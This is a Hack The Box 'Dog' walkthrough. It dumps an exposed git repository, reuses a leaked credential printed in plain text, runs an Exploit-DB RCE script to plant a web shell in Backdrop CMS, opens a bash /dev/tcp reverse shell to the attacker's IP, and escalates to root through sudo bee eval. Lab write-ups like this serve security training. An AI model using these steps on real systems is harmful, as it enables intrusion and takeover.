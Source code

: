 # 🐾 Hack The Box - Dog
![Screenshot](https://imgur.com/7MgR1KL.png)

### 🌐 Machine Information
- **IP:**  10.10.11.58
- **OS:** Linux

### 🧭 Information Gathering
- I begin by scanning the target machine using Nmap to identify open ports and running services: `nmap -A -p- 10.10.11.58 -oN nmap_scan`
![Screenshot](https://imgur.com/MNXz0uh.png)
- Nmap Results 2 open ports and 1 interesting finding: `22 (ssh)`, `80 (HTTP)` and `.git` is exposed
- To make the domain easier to access, I added the following line to /etc/hosts: `10.10.11.58 dog.htb`
![Screenshot](https://imgur.com/aBtUadM.png)
- Browsing to http://dog.htb, I found a Backdrop CMS login page
![Screenshot](https://imgur.com/K84alMF.png)

### 📂 Git Repository Dump & Initial Access
- Since the .git directory was publicly accessible, I used git-dumper to retrieve the full source code: `git-dumper http://dog.htb gitdump`
![Screenshot](https://imgur.com/m1CD9uj.png)
- Once dumped, I reviewed the contents and discovered database credentials in `settings.php` 
![Screenshot](https://imgur.com/nE3dinF.png)
- I then searched the codebase for email addresses using: `grep -rn "dog"`
- This revealed an email address
![Screenshot](https://imgur.com/hpfeNIb.png)
- I attempted to log into the CMS using the email and the MySQL password found earlier: `tiffany@dog.htb:BackDropJ2024DS2024`
![Screenshot](https://imgur.com/DKYpuzX.png)
- It worked.

### 🧩 Identifying CMS Version & Exploiting RCE
- After logging in, I navigated to the CMS status page: `http://dog.htb/?q=admin/reports/status`
![Screenshot](https://imgur.com/tPFSSoT.png)
- The version identified was Backdrop CMS 1.27.1
- Using searchsploit, I looked for known vulnerabilities: `searchsploit backdrop 1.27.1`
![Screenshot](https://imgur.com/S08xDJK.png)
- One exploit offered remote code execution (RCE). I used the script from Exploit-DB (Locate it through the path provided by searchsploit): `python3 52021.py http://dog.htb`
![Screenshot](https://imgur.com/50sfPPU.png)
- Before uploading the malicious module, I modified the module info (the file with the .info extension) for easy identification. 
- Before:
![Screenshot](https://imgur.com/XSbZoYD.png)
- After:
![Screenshot](https://imgur.com/oZEDlWu,png)
- I then manually uploaded it at: `http://dog.htb/?q=admin/installer/manual`
![Screenshot](https://imgur.com/5yAEwk2.png)
**Note:** I converted the zip file to .tar.gz, as .zip uploads were blocked.
![Screenshot](https://imgur.com/pWAoHIF.png)
- Once installed, I accessed the shell via: `http://dog.htb/modules/shell/shell.php`
![Screenshot](https://imgur.com/pdKzR0W.png)
- To get a reverse shell on my local machine i used this method:
Attacker (listener): `nc -lvnp 4444`
Target (shell): `bash -c 'bash -i >& /dev/tcp/10.10.14.9/4444 0>&1'`
**Note:** `10.10.14.9` is my ip
![Screenshot](https://imgur.com/8Dg5EWG.png)

### 👤 Privilege Escalation to User
- In `/home`, there were two users: `jobert` and `johncusack`. The `user flag` belonged to `johncusack`, but I didn't have direct access.
![Screenshot](https://imgur.com/BToevl6.png)
- I tried switching users with the database password found earlier: `su johncusack`

  ![Screenshot](https://imgur.com/3b388rm.png)
- It worked. After switching, I upgraded the shell for better usability: `script /dev/null -c bash`
- I then accessed the user flag.

  ![Screenshot](https://imgur.com/wmXeXqT.png)

### 🔐 Privilege Escalation to Root
- Running `sudo -l` revealed: `(ALL) NOPASSWD: /usr/local/bin/bee`
![Screenshot](https://imgur.com/yAoWqxL.png)
- Executing `bee` showed a PHP evaluation tool. One of its features, `eval`, allowed arbitrary PHP execution. 
![Screenshot](https://imgur.com/8qtDuGn.png)
- My initial attempt failed because it required a valid project root.
![Screenshot](https://imgur.com/t7NgCYy.png)
- After some trial and error, I found the correct usage: `sudo /usr/local/bin/bee --root=/var/www/html eval 'system("bash");'`
- It turns out I had to specify the Backdrop root directory, which is where the Backdrop CMS is located: `/var/www/html`
![Screenshot](https://imgur.com/4i9nzQS.png)
- This granted a root shell. From there, I read the root.txt and captured the root flag.

  ![Screenshot](https://imgur.com/thbiBzV.png)

